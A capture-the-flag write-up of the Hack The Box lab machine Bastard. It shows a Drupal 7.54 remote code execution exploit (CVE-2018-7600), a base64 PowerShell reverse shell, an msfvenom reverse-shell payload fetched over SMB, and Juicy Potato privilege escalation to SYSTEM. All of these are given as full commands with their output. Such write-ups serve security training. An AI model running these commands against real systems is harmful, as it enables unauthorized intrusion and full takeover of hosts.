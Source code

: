 ```yaml
---
title: Hackthebox - Bastard
description: writeup of the HTB machine Bastard.
author: rxffsec
date: 2024-08-20 06:25:00 -0600
categories:
  - CTF
  - HTB
tags:
  - writeup
  - drupal
  - potato_privesc
  - clsid
image:
  path: /assets/img/htb/bastard/bastard.png
---
```


## Enumeration

Starting with a nmap scan I find three open ports 

```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.9 -oG allPorts -vvvv
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

Visiting the port 80 I find a drupal login panel

![Desktop View](/assets/img/htb/bastard/drupal_login_1.png)


doing a curl to the changelog.txt I'm able to enumerate the version which in this case is 7.54
```bash
$ curl -s -X GET http://10.10.10.9/CHANGELOG.txt  | head

Drupal 7.54, 2017-02-01
-----------------------
```

## shell as iusr 

searching for some exploits I find this [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600) that allows me to get remote command execution on the machine 

```bash
$ python drupa7-CVE-2018-7600.py -c 'whoami' http://10.10.10.9/
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

To get a stable shell I use the base64 powershell reverse shell from [revshells](https://www.revshells.com/) I start a nc listener on port 9001 and receive the connection

```sh
$ python drupa7-CVE-2018-7600.py -c 'powershell -e JABjAGwAa...' http://10.10.10.9/
```

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 51840

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 
```

Enumerating privileges I see that the seimpersonate privilege is enabled which might allow me to use a juicy potato or a similar exploit to elevate privileges

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 
```

## shell as nt authority\system

I create a shell.exe file with msfvenom that will give me a reverse shell 

```shell
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f exe -o shell.exe
```

I download juicy potato and the shell.exe executable files into the target machine 

```sh
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\shell.exe . 
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\jp.exe .
```

I start another nc listener on port 9001 and then I try to run jp.exe with the program shell.exe but it fails

```sh
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p .\shell.exe 
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

The reason is that the clsid is wrong so I look for a valid one [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) I retry the exploit two times until it gives an "OK" response
```shell
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
...........................................
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp\x> 
```

and finally I receive a shell as nt authority\system

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 63808
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


